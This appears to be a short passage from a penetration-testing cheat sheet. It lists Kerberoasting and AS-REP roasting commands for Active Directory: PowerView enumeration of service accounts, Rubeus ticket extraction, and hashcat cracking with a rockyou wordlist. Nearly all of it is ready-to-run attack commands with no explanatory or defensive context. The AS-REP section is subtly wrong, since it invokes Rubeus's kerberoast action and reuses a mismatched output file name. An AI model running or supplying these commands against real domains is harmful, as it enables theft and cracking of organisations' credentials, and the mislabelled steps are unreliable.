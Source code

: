
hashcat64.exe --help | find "NTLM"
### Kerberoasting 
```
PowerShell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName

Rubeus kerberoast /outfile:hashes.asreproast


hashcat64.exe -a 0 -m 13100 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt -o winpass2.txt --force  --potfile-disable
```

### ASREPRoasting
 
```
Rubeus kerberoast format:hashcat /outfile:hashes.asreproast



hashcat64.exe -a 0 -m 18200 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt --force  --potfile-disable


```
